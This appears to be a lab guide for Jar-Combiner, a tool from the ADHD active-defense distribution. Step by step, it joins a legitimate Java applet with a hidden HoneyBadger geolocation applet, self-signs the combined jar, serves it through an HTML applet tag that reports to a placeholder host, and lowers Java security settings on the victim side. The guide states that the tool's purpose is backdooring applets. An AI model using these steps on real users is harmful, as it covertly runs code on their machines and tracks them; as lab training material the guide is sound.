

Jar-Combiner
===========

Website
-------

<https://bitbucket.org/ethanr/jar-combiner>

Description
-----------

Jar-Combiner is a tool used to combine two seperate Java applets into one.  The resultant combined applet will run one of the former applets normally, while hiding the second one in the background.  
This is incredibly useful for backdooring legitimate Java applets.
A user running the new combined applet will see what they expect, while your code runs in the background.

Install Location
----------------

`/opt/jar-combiner/`

Usage
-----

`/opt/jar-combiner/Linux$` **`./joining.sh help`**

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_Jar_Combiner.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155669&canary=">
 
Your browser does not support html5 video.

</video>

Example 1: Finding the Entrypoints
----------------------------------

In order to combine two applets, you must first know the entrypoints into both of those applets.  
The entrypoints are the classes that extend `JApplet` or `Applet`; they are where the code starts.  
Every applet has a different entrypoint.  

The easiest way to determine the entrypoints is by looking at html files made to launch the 
applets in question.  Take an html file or webpage that launches one of your Java applets and 
view its source.  In the source of the file you should be able to find the `applet` tag.  
Inside of this tag, find the parameter `code`.  The value to which the parameter `code` is set, 
is your entrypoint for that applet.

For example, the html that launches the HoneyBadger geolocation applet looks something like this:

    <applet code="honey.class" archive="honey.jar" width="0px" height="0px">
        <param name="target" value="target_name" />
        <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php"
    </applet>

So in this case, the path to the entrypoint would simply be `honey.class`.

Example 2: Combining Two jars
-----------------------------

Before beginning this operation, you must have a few items:

  * Two jar files
  * The entrypoints to each jar

The command line arguments are as follows

    -j1 the path to the first jar
    -p1 the path to the entrypoint for the first jar
    -j2 the path to the second jar
    -p2 the path to the entrypoint for the second jar

We have included two jar files in ADHD for your testing convenience.
They are located in /home/adhd/Documents/jars

The first applet is jrdesktop

    -j1 /home/adhd/Documents/jars/jrdesktop.jar
    -p1 jrdesktop/mainApplet.class

The second applet is Honeybadger's geolocation applet

    -j2 /home/adhd/Documents/jars/honey.jar
    -p2 honey.class

To combine the jars first **`cd`** into the Jar-Combiner folder:

`~$` **`cd /opt/jar-combiner/Linux`**

Run Jar-Combiner like so:

`/opt/jar-combiner/Linux$` **`./joining.sh -j1 /home/adhd/Documents/jars/jrdesktop.jar -p1 jrdesktop/mainApplet.class -j2 /home/adhd/Documents/jars/honey.jar -p2 honey.class`**

When this operation is complete a new jar file should appear at `/opt/jar-combiner/Linux/finished.jar`.
This is your combined jar file.

When executed, `finished.jar` will run code from the first applet (jrdesktop) in the foreground, 
(with access to the screen) and the second applet (honey) in the background.

Now that the applet has been created, we need to sign it.

Example 3: Signing Finished.jar
-------------------------------

Signing your newly created jar file is no big deal.

First create a keystore.
`/opt/jar-combiner/Linux$` **`keytool -genkey -alias signFiles -keystore mykeystore`**

        Enter keystore password:  
        Re-enter new password: 
        What is your first and last name?
          [Unknown]:  
        What is the name of your organizational unit?
          [Unknown]:  
        What is the name of your organization?
          [Unknown]:  
        What is the name of your City or Locality?
          [Unknown]:  
        What is the name of your State or Province?
          [Unknown]:  
        What is the two-letter country code for this unit?
          [Unknown]:  
        Is CN=Unknown, OU=Unknown, O=Unknown, L=Unknown, ST=Unknown, C=Unknown correct?
          [no]:  yes
          
        Enter key password for <signFiles>
            (RETURN if same as keystore password): 

You can just hit enter for most of the options, but fill the form out if you desire.

Now that the keystore is created, let's sign our new jar.

`/opt/jar-combiner/Linux` **`jarsigner -keystore mykeystore -signedjar combinedandsigned.jar finished.jar signFiles`**

        Enter Passphrase for keystore: 
        
        Warning: 
        The signer certificate will expire within six months.

This will create a new jar file called `combinedandsigned.jar` from `finished.jar` that will be 
signed and ready to go!

Next, let's launch the jar with the help of an html file.

Example 4: Launching Your Jar Via HTML
--------------------------------------
In order to accomplish this, we will create an html file with these contents.

    <html>
        <body>
            <applet code="Combine.class" archive="combinedandsigned.jar" width="600" height="400">
                <param name="target" value="combined_jar" />
                <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php" />
            </applet>
        </body>
    </html>

Just run gedit and save this code to `/opt/jar-combiner/Linux/test.html`

`/opt/jar-combiner/Linux$` **`gedit test.html`**

Once you've created the file, transfer it over to your web-root (/var/www)

`/opt/jar-combiner/Linux$` **`sudo cp test.html /var/www/`**

You will also have to transfer the applet to your web-root.

`/opt/jar-combiner/Linux$` **`sudo cp combinedandsigned.jar /var/www/`**

Now, make sure your apache2 server is running.

`/opt/jar-combiner/Linux$` **`service apache2 status`**

        * apache2 is running

Navigate to your web server on a machine with java installed and run the applet.

The url to navigate to will be `http://<YOUR_ADHD_IP_ADDRESS>/test.html`

To find your ADHD instance's IP Address simply run:

`~$` **`ifconfig`**

        eth0      Link encap:Ethernet  HWaddr 00:0c:29:40:1c:d3  
              inet addr:192.168.27.158  Bcast:192.168.27.255  Mask:255.255.255.0
              inet6 addr: fe80::20c:29ff:fe40:1cd3/64 Scope:Link
              UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
              RX packets:91614 errors:0 dropped:0 overruns:0 frame:0
              TX packets:54289 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1000 
              RX bytes:123877563 (123.8 MB)  TX bytes:4351183 (4.3 MB)
              Interrupt:19 Base address:0x2000 

Your IP address is the section listed as the `inet addr` for your eth0 interface.

It is important to note, that if you are running ADHD in a VM, if the VM is set to network via NAT, 
you will only be able to access the VM from the host machine.

If you have done everything right.  When you navigate to the test.html resource and run the applet.  
You should see something like this:

To view your results (and to make sure that you did everything right) navigate to your HoneyBadger 
reporting console.  In a web browser of your choice, head to http://YOUR_ADHD_IP_ADDRESS/honeybadger 
and log in.

Assuming you haven't changed them, the default credentials are:

    Username: adhd
    Password: adhd

Once you have logged in to the page, simply select the target name you set in test.html (under the 
"target" parameter) in the menu on the left.

Note: The Java location technique will only work on a machine with a wireless card.

Example 5: Changing Java Security Settings
------------------------------------------

Note: These instructions have been tested with Java 8 Update 31.

The newer versions of Java enforce strict security settings for the purposes of avoiding drive-by-pwning.

Though the effectiveness of these settings is up for debate, they will hinder our progress in this 
lab by blocking our self-signed applet.

Here is how to change them on windows.

**`Windows Key -> (search for) Configure Java`**

In the Configure Java menu, select the "Security" tab.

From there, add a site exception by clicking on the button labeled **"Edit Site List..."**

In this dialog, click **"add"** to create a new entry.

Fill the entry in like so `http://YOUR_ADHD_IP_ADDRESS`

Finally, click okay to accept your changes.  Accept any warning banners.  
You should now be ready to rock!

